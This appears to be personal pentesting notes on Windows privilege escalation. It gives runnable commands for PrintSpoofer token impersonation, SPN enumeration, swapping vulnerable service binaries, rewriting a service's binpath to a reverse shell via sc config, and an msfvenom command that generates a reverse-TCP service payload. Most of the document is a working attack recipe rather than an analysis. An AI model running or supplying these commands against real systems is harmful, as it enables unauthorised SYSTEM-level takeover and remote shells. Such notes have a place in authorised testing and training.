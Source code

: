 #### PrintSpoofer - Token Impersonation
```
C:\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe # triggered on ADMIN use
C:\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i # in local service reverse shell run exploit
```
[PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases)


## SPN map
```powershell
setspn -T medin -Q  */*        # extract all accounts in the SPN (service principle name) service and account mapping, may contain passwords..
```

## Services
See [[Windows-Services]] and [[Windows-System-And-Service-Privileges]]
```powershell
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
# Look for \Program Files\* as they are User installed and DEv is charge directory structure and persmissions of Software.
```
Check here for detailed [[Windows-Permissions]] descriptions. 
```powershell
icacls *.exe
```
Replace executable with malicious binary, stop the original, get start options.
```batch
# compile PrivEsc code C,C++ and C# are probably best choices
move "*.exe" "original.exe.bkp" # backup
move exploit.exe "\*exe's\path"
net stop Vulnerable_Service
wmic service where caption="Vulnerable_Service" get name, caption, state, startmode
# Check the start mode and adjust accordingly
```

## Insecure service permissions
```batch
accesschk.exe /accepteula -uwcqv <user> <service> # sysinternals
sc qc <service>
sc config <service> binpath= "pathtoreverseshell.exe" obj= LocalSystem
net start <service>
# Or
sc stop <service>
sc start <service>
```
With powershell use:
```powershell
sc.exe # sc is Set-Content!
```
Use the correct format with msfvenom `-f exe-service`.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$IP LPORT=4445 -f exe-service -o rev-svc.exe
```
